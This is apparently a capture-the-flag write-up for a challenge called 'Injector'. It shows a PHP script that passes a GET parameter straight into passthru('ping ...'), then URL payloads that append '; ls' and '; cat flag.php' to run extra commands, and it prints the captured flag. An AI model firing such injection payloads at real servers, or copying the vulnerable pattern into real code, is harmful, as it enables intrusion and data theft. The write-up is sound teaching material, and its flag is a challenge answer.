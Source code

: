 # Injector (500 points)

This write-up details a Command Injection vulnerability discovered in a web application. The vulnerability was identified in a PHP script that improperly handles user input, allowing an attacker to execute arbitrary commands on the server.

# Vulnerable Component:

The vulnerability exists in a PHP script that utilizes the passthru function to execute a ping command with user-supplied input. The script concatenates a parameter obtained from a GET request ($_GET['host']) directly into the command line:

```
passthru("ping -c 2 " . $_GET['host']);
```
# Exploit Description:

The vulnerability was exploited by appending a semicolon (;) followed by an arbitrary command to the host parameter in the GET request. In Unix-like operating systems, the semicolon is used to separate commands, allowing multiple commands to be executed in sequence.

# Exploitation Steps:

# Initial Command Execution Test:

The following URL was used to test the execution of additional commands:
```
http://<server>/index.php?host=127.0.0.1; ls
```
This resulted in the execution of the ls command, listing files in the current directory (flag.php, index.php).

# Reading File Contents:

To read the contents of flag.php, the following URL was used:
```
http://<server>/index.php?host=127.0.0.1; cat flag.php
```
This command displayed the contents of flag.php.

# now look at the html source file
```
<pre><?php


//CTF{C0mm4nd_1nj3c5i0n_1s_E4sy}


?>
</pre><pre style="color:red;">Command executed: ping -c 2 127.0.0.1; cat flag.php</pre>
```
**FLAG:** `CTF{C0mm4nd_1nj3c5i0n_1s_E4sy}`